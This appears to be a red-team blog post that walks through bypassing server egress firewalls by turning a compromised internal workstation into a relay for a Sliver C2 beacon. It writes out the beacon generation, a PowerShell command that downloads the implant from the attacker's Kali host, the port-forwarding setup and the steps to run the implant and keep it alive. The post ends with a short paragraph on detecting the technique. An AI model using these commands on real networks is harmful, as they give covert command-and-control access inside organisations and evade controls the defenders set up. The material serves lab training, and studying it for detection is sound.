








# Bypassing Egress Firewalls with a Sliver C2 Redirector

## Introduction

You land on an internal box, drop your beacon, and nothing calls back. You check twice, generate again, still nothing. The host is fine, the payload is fine, the C2 is fine. What's killing you is the firewall. The server you are sitting on has no business talking to the internet, so the outbound traffic to your Kali just gets dropped at the gateway.

This is a very normal situation on real engagements. Servers usually have strict outbound rules, and honestly that is how it should be. In this post I want to show how I get around it in practice, using an internal workstation as a redirector so the beacon reaches me anyway. The tool doing the actual traffic relaying is my own [PortForwarder](https://github.com/lsecqt/PortForwarder), and the C2 in this demo is Sliver.

If you prefer watching over reading, here is the video version. If you enjoy the content, feel free to subscribe:

[!embed](https://youtu.be/iAVS2ur3O6w)

Before we dive in, a quick shout to my patrons. The internal tooling I use on real engagements, including my custom agent, packer and the material that never lands on YouTube, all lives on my [Patreon](https://www.patreon.com/Lsecqt). If you want to go deeper into the offensive side, that is where the deeper stuff is, and it directly funds the free content on this blog.

## The demo, in one screenshot

To set the stage, this is what we are going to build. On the right is `SQL01`, an internal server that cannot reach my external Kali on its own. On the left is my Sliver on the Kali box. In the middle, doing the work quietly, is `CLIENT01`, an internal workstation acting as the redirector. The beacon runs on `SQL01`, the traffic bounces through `CLIENT01`, and the callback lands in Sliver on the Kali.



That is the whole trick. Now let me walk through why it works and how to set it up end to end.

## The environment

Nothing exotic here, just a small lab that mirrors what a real internal network looks like.

- `lsec.local`, my simulated Active Directory, sitting on `172.16.0.0/16`.
- A domain controller, obviously.
- `SQL01`, an internal server with restricted outbound. This is our compromised host.
- `CLIENT01`, an internal workstation that can browse the internet, like most users are allowed to. IP `172.16.32.206`.
- My Kali on `192.168.0.160`, treated as external, sitting outside the AD subnet with the firewall in between.

## Why the beacon dies

On most engagements I see the same pattern. Workstations are allowed out because users need the internet, sometimes through a proxy, but they can reach external systems. Servers are locked down and cannot talk to anything outside. That is the correct configuration and I am glad when I see it, but as an attacker it means a beacon spawned on a server has no path home.

If you land a foothold on `SQL01` and the payload tries to call back to your Kali at `192.168.0.160`, the firewall drops it. Same story for `google.com` or anything else. From that server, out is out.

## The idea

If the server cannot reach us, we need a middle man that can. And since there is no outbound traffic at all from that server class, spinning up an external redirector on the internet is useless. The redirector has to sit inside the network, on a host that both the server can reach and that can reach out through the firewall.

The workstation fits perfectly. `SQL01` can talk to `CLIENT01` on the internal network (no NAC in the way in most cases), and `CLIENT01` can talk to my Kali through the firewall. So the chain becomes:

`SQL01` (beacon) → `CLIENT01` (redirector) → Kali (Sliver listener)

That is it. The beacon thinks it is calling `CLIENT01`. `CLIENT01` blindly forwards that traffic to the Kali. Sliver receives it and hands us a session. From the server's point of view nothing weird is happening, it is just talking to another box on its own subnet.

## PortForwarder

The tool doing the relaying is [PortForwarder](https://github.com/lsecqt/PortForwarder), a small C tool I wrote for exactly this. It does one thing: listen on a local port, and forward whatever comes in to a target IP and port. That is all.

Typical usage:

```
PortForwarder.exe <listen_port> <destination_ip> <destination_port>
```

Add `-v` if you want to see per connection detail at runtime.

One small thing worth calling out: it can also forward port 445. That port is normally occupied by the local SMB service, so binding to it would fail. If you run PortForwarder as admin and give it 445, it will stop the SMB service, free the port, and then start forwarding. Handy when you need to relay SMB through a pivot.

In practice, in real engagements, the ports I forward most are 443 for HTTPS C2 and 445 for SMB. Any port works, those are just the two that come up.



## Generating the beacon

Now to the Sliver side. I want to generate a beacon that will run on `SQL01`, but the critical thing is the callback address. It must point at the redirector, not at the Kali. If you point it at the Kali, the beacon will try to reach the Kali directly, hit the firewall, and die exactly like before. The whole point is to make the beacon talk to `CLIENT01` and let the redirector do the outbound leg.

Two small quality of life things in Sliver I want to mention while I am here. Backspace now deletes a whole word by default, which used to drive me mad. And `generate beacon` on its own now launches a wizard that walks you through every option, so you do not have to remember every flag.

Fire it up:

```
generate beacon
```

Then answer the wizard:

- **Common platforms only:** yes
- **Operating system:** Windows
- **Architecture:** amd64
- **Output format:** executable (you also have shared library, service, shellcode and a few others)
- **Implant name:** `redirector` (optional, otherwise Sliver picks a random one)
- **C2 transport:** HTTPS

The C2 transport must match the listener you have running. If you started an HTTPS listener with `https`, use HTTPS here. If you started `mtls`, use MTLS. They are not interchangeable. In another Sliver pane you can check with `jobs` to see what is listening.



Now the important field:

- **C2 endpoint:** `https://172.16.32.206`

That IP is `CLIENT01`, the redirector. Not the Kali. Since my HTTPS listener is on the default 443 I do not need to specify a port, but if your listener runs on anything else you must include it here.

Finally set the beacon interval to 5 and jitter to 5. If you set the interval below 5 seconds Sliver will error out, so if you want faster than that use a direct session instead of a beacon.



## Delivering the beacon to SQL01

Standard fetch. On the Kali:

```
python3 -m http.server 80
```

On `SQL01` from PowerShell:

```
iwr http://192.168.0.160/redirector.exe -OutFile up.exe -UseBasicParsing
```

(In the video I fat fingered the IP once, muscle memory from an old VM, then corrected it. Nothing exotic.)



Do not run it yet. If PortForwarder is not up on `CLIENT01` when the beacon fires, the beacon will call the redirector, get nothing back, and you get nothing.

## Setting up the redirector on CLIENT01

Drop `PortForwarder.exe` on `CLIENT01`. From an admin PowerShell:

```
PortForwarder.exe 443 192.168.0.160 443
```

That opens 443 locally on the workstation and forwards every connection to the Kali on 443, which is where the Sliver HTTPS listener sits. The listen port on the redirector must match the port the beacon is trying to hit (443), and the destination port must match the Sliver listener (also 443 in my case).



## Firing the beacon

Back to `SQL01`, run the payload:

```
.\redirector.exe
```

Within a beacon interval the callback lands in Sliver. If you look at the PortForwarder window on `CLIENT01` you can watch the traffic go through in real time, which is a nice sanity check that the redirector is doing its job.



From there it is business as usual. Attach to the beacon, and if you want more responsiveness you can even spawn an interactive session on top of it and it will still route cleanly through the redirector. Sessions are not officially guaranteed over this setup, but in my testing they work fine as long as the redirector stays alive.

```
beacons
use <beacon_id>
interactive
```



## The one thing that will bite you

The whole chain lives and dies with `CLIENT01`. If the workstation reboots, sleeps, or someone closes the PortForwarder window, your beacon is gone. Not paused, gone. The moment the redirector stops relaying, any command you send times out, the beacon marks itself as implant timeout, and until you get PortForwarder running again on that host you have no callback.

!!!
Most workstations sleep after a while by default. On a real engagement, make sure the redirector host has a way to stay awake. A caffeine style utility, a scheduled task that nudges it, or just poking it manually every so often. Otherwise your access dies with the screensaver.
!!!

If you want something more resilient, you have a few options. Persist PortForwarder as a service or a scheduled task on the workstation so it comes back after a reboot. Pick a machine you know is left on. Or, better, chain more than one redirector so a single host going down does not sink the whole thing.

## Conclusion

Egress restrictions on servers are one of the most common reasons a beacon does not come back, and the fix is not to fight the firewall, it is to route around it using a host that is already allowed to talk out. A workstation you already own on the internal network is usually the ideal candidate. PortForwarder gives you a simple, low ceremony way to turn that workstation into a redirector, and Sliver does not care that the beacon is talking to a middle man, as long as the C2 endpoint on the beacon matches the redirector's address.

On the defensive side, this technique lives in the gap between two controls. The egress rules on the server are doing their job perfectly, the traffic never leaves the server for the internet directly. What is missing is visibility on internal to internal traffic. A workstation suddenly listening on 443 and forwarding to an external IP is worth catching. Egress logging on the workstation subnet, EDR alerts on unusual listening ports, and blocking arbitrary outbound HTTPS from user machines all help close this down.

Thanks for staying to the end. If this post was useful, smash the subscribe on the [YouTube channel](https://www.youtube.com/@lsecqt), and if you want to go deeper into the malware and red teaming side, support the work on [Patreon](https://www.patreon.com/Lsecqt) where the internal videos, custom agent and packer live. Have fun out there.
